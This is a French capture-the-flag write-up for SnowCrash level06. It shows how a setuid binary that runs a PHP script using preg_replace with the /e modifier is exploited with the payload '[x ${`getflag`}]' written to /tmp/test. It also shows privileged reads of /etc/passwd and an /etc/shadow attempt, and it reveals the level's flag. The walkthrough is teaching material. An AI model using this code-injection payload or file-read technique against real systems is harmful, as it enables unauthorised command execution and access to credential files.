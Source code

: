 ## Level06

On voit dans le home qu’on a accès à un binaire et un fichier php qui appartiennent tous deux à level06.

Quand on tente de lancer le binaire, on a un message d’erreur php nous disant que le filename ne peut pas être vide. Donc j’ai essayé **./level06 /etc/passwd** pour voir et le fichier s’est affiché. Il est donc possible que ce binaire permette de lire des fichiers dont on a pas les droits.

J’ai voulu afficher le /etc/shadow avec la même technique mais échec.

En regardant le code php on voit une fonction x, a qui on passe argv[1] et argv[2] en params. argv1 semble être le filename et argv2 je ne sais pas

Je peux passer plusieurs fichiers au programme il les affiche tous

Il y a des chances pour que le code php qu’on à soit celui qui ait servi a faire le binaire.

Je récupère donc le binaire sur ma machine avec **scp -P 4242 [level06@172.20.10.2](mailto:level06@172.20.10.2):/home/user/level06/level06 .**

Je le passe dans cutter et je vois que le binaire effectue un execve avec /usr/bin/php pour lancer level06.php :

![Untitled](./screenshots/Untitled%207.png)

si on fait un ls -la | grep php dans /usr/bin, on remarque aue php est lié symboliquement à /etc/alternatives/php.

La piste du lien symbolique est foireuse, en analysant le code php on remarque des preg_replace qui correspondent au traitement par regex en php.

Je joue donc avec les regex sur reg 101 pour comprendre ce qu’elles font :

**/(\[x (.*)\])/e** match **[x**NIMPORTQUELSCHARS**]**

On a aussi deux autres regex dans la fonction x qui remplacent [ et ] par ( et )

Il faut respecter la regex **/(\[x (.*)\])/e** pour que ce qu’on écrit soit lancé dans la fonction y qui est exécutée.

donc ce qu’on met [x ICI] passe dans y

J’essaye de mettre **[x exec(/bin/getflag)]** dans mon ficheir mais ca print juste exec(/bin/getflag)

Je fais mes tests sur le php playground avec

```bash
<?php
    function y($m) { 
        $m = preg_replace("/\./", " x ", $m);
        $m = preg_replace("/@/", " y", $m); 
        print $m;
        return $m; 
    }
    function x($y, $z) { 
        // $a = file_get_contents($y); 
        $a = $y;
        $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); 
        $a = preg_replace("/\[/", "(", $a); 
        $a = preg_replace("/\]/", ")", $a); 
        return $a; 
    }
    $r = x("[x exec(/bin/getflag)]", "[getflag]"); 
    //print $r;
?>
```

Et je modifie le x exec /bin/flag en avant dernière ligne pour voir ce qui est print

Avec la syntaxe d’exec php avec ${} et les backticks on met ca dans le fichier :

**[x ${\`getflag\`}]**

donc on termine avec ces commandes:
```sh
level06@SnowCrash:~$ echo '[x ${`getflag`}]' > /tmp/test
level06@SnowCrash:~$ ./level06 /tmp/test
```


Ensuite on lanc level06 avec notre fichier en arg et on a le flag **wiok45aaoguiboiki2tuin6ub** pour se connecter au level07 
